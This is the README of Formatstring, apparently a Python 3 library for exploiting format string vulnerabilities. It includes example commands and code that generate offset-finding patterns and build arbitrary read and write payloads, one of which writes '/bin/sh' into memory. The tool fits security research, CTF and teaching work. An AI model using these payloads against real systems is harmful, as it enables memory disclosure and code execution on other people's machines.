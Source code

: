 # Formatstring

Formatstring is a **python 3** library to help the exploitation of **format string vulnerabilities**.

## Examples

* Generate a pattern to detect the offset of the printed buffer
```bash
$ python formatstring/pattern_create.py 255
ABCDEFGH|%1$p|%2$p|%3$p|%4$p|%5$p|%6$p|%7$p|%8$p|%9$p|%10$p
```

* Compute the offset, given the result of the format string on the previous pattern
```bash
$ python formatstring/pattern_offset.py --arch x86_32
Enter the result of the format string on a pattern given by pattern_create:
ABCDEFGH|0x400|0xf776e5a0|0x4|0x4|0x7|0x1b3220|0x43424120|0x47464544|0x31257c48|0x257c7024
Found buffer at offset 8
```

* Generate a payload to read at a given address
```python
import sys
from formatstring import *

settings = PayloadSettings(offset=8, arch=x86_32)

p = ReadPayload(0x8048590)
sys.stdout.buffer.write(p.generate(settings))
```

* Generate a payload to write at various addresses
```python
import sys
from formatstring import *

settings = PayloadSettings(offset=8, arch=x86_32)

p = WritePayload()
p[0x8049790] = b'/bin/sh\x00'
p[0x80497a8] = struct.pack('@I', 0x01020304)
sys.stdout.buffer.write(p.generate(settings))
```

## Contributors

Author: Maxime Arthaud (maxime@arthaud.me)

## License

formatstring is under The MIT License (MIT)
